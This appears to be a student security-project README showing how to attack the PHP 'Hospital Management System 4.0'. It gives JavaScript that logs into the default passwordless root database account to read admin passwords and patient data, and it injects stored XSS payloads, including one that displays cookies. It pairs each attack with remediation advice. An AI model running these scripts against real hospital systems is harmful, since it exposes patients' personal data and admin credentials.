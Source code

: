 # Information Security Project

List of content:
 - Introduction
 - Hospital Management System 4.0
 - Vulnerabilities
    - No security modifications on database
    - XSS attacks
- Damages


 ## Introduction
 The aim of this project is to show how to hack the "Hospital Management System 4.0" whit basic knowledge of:
 - HTML
 - JavaScript
 - MySql
 - XSS-Attacks
To see how to get started please have a look at the "instructions.md" file.


## Hospital Management System 4.0
phpgurukul:
> Hospital Management System is a web application for the hospital which manages doctors and patients.

The sofware is based on php and uses a My SQL database.
The software offers 3 different modules which are the following:
- Admin module
- User module
- Doctor module

Each module has access to different tasks which are important for every hospital.
One of the most importan tasks is the ability to store personal informations of each patient.
This data is the most interesting data for hackers.

## Vulnerabilities of the Software

### No security modifications on database
We already encounter the first vulnerability in the software when we set up the software. 
As you may have noticed, you were not asked to change the security settings at any stage of 
the database setup. So it is possible for everyone on the installation server to read the database 
data with simple SQL scripts.
Due to this security hole it is possible to perform any action, e.g. change the admin password, 
read out the patient data or delete the entire data. 
To perform such actions it is sufficient to connect to the database with the standard authentication data:
- Username: "root"
- Password: ""

#### Examples from project

##### Create database connection
The following piece of code shows how to create a databse connection in javaScript.
All you need to know for this are the standard authentication data and the name of the 
database which we know already from the setup.
``` javaScript
function getDatabaseConnection() {
	const mysql = require('mysql');

	return mysql.createConnection({
		host: "localhost",
		user: "root",
		password: "",
		database: "hms"
	});
}
```
##### Execute a SQL query
The following code shows how to execute a SQL query.
In addition to it if the flag "open" is set to true it opens
the browser with the link to one of the vulnerable sites.
An example for a query could be:
"SELECT password FROM admin".
``` javaScript
function executeQuery(sql, open = false) {
	const con = getDatabaseConnection();
	con.connect(function (err) {
		if (err) console.log("There went somthing wrong! Please try again!", newLine);
		con.query(sql, function (err, result) {
			if (err) console.log("There went somthing wrong! Please try again!", newLine);
			if (open) {
				var opn = require('opn');
				opn('http://localhost/hospital/hms/admin/doctor-specilization.php');
			}
			else
				console.log(result)
			main();
		});
	});
}
```
#### Solution
The solution to this problem is quit simple.
It would be enough to show the user how to set up the security settings of the databse
and how to change this settings also in the given php project.
An other solution would be to provide a service which sets up the environment for the client.

### XSS Attacks
Most of the input fields of the software are vulnerable to XSS attacks.
One of this fields is the field "doctorspecilization". Using basic knowledge of XSS attacks, html tables and javaScript
you are able to add a XSS atack to the database.
Here is an example of what you need to enter: ```</td><script>alert("Hello! I am a XSS attack")<script><td>````

#### Why does this work?
First of all it works because there is no check on the backend site for the input values.
The piece of code we see above works because a simple html table is used to display the list of doctor specilizations.
- ```</td>```closes the cell of the table.
- ```<script></script>``` allows you to execute javaScript.
- ```alert("Hello! I am a XSS attack")``` shows a small popup with the message "Hello! I am a XSS attack".
- ```<td>``` opens the next cell of the table to avoid an html parsing error.

#### Examples from project
Unfortunately my javaScript basics were not good enough to create a valid HTTP request of type "POST".
This request always ended with the server not giving me a response after I added parameters to the request. 
This could be security measures of the tested software or a bug on my part.
To automate the part of the XSS attack I used the vulnerabilities of the database and wrote the attack directly 
into the database. This is similar to the procedure you would enter in the application itself. 

The following code asks the user to make a few decisions first. These decisions will determine how exactly the XSS 
attack looks like. Then the XSS attack is assembled according to the user's wishes and written to the database using 
the functions we have already seen in the previous section. This makes it possible to display the cookies, for example.  

``` javaScript
function addXSS() {
	askForInput();
	showXSSOutputOptions();
	const outputFun = readUserInput("Please enter the output function you want to use");
	const outputMsg = readUserInput("Please enter the message you want to show or type 'cookie' if you want to see the cookies: ");
	let msg;
	let query;
	switch (outputFun) {
		case "1":
			msg = outputMsg == "cookie" ? "document.cookie" : outputMsg;
			query = `INSERT INTO doctorspecilization (specilization) VALUES ('</td><script>alert(${msg});</script><td>')`;
			executeQuery(query, true);
			break;
		case "2":
			msg = outputMsg == "cookie" ? "document.cookie" : outputMsg;
			query = `INSERT INTO doctorspecilization (specilization) VALUES ('</td><script>console.log(${msg});</script><td>')`;
			executeQuery(query, true);
		break;
		default:
			console.log("Please enter a valid input!");
			addXSS();
			break;
	}
}
```

#### Solution
To prevent a XSS attack on input fields you have to sanitize the input of the user.
You also have to be attention where you put this input because even if you filter the 
input of the user there is no sanitazion method which is able to prevent to all XSS attacks.
One of the functions you have to remember when creating a php project with user input is
```htmlspecialchars()```. This function will convert special characters into HTML entities.
Another useful function is ```addslashes()```. This function adds a slash in attempt to prevent 
an attacker from terminating the variable assignment and appending executable code.

These are just a few basic precautions that are usually not sufficient to prevent XSS attacks. 
A very detailed description how to prevent XSS attacks can be found [here](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html).

### Damages
